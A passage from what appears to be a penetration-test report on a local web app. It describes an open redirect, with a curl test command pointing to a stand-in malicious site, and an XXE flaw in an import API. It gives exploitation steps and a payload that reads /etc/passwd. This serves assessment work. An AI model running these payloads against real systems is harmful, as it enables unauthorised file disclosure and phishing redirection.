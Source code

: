 #### Command Examples

```bash
curl -I "http://127.0.0.1/redirect?url=https://malicious-site.com"
```

#### Required Tools

- Web browser
- curl
- Burp Suite

#### Potential Impact

- Phishing attacks against users
- Redirection to malware distribution sites
- Credential theft through fake login pages
- Bypassing security filters that trust the original domain
- Social engineering assistance

---

### XML External Entity (XXE) Processing (High)

**Affected Component:** http://127.0.0.1/api/import (Unknown parameter)

**Description:** An attacker provides XML input containing references to external entities that can access local files, internal systems, or cause denial of service. This can lead to sensitive information disclosure, server-side request forgery, or system crash.

#### Step-by-Step Exploitation

1. Identify XML input point at: http://127.0.0.1/api/import
2. Craft a malicious XML payload with XXE
3. Submit the payload to the vulnerable endpoint
4. Check for data extraction or server responses

#### Example Payloads

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<test>&xxe;</test>
```

#### Code Examples

**XML:**
```xml

<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<test>&xxe;</test>
```

#### Command Examples
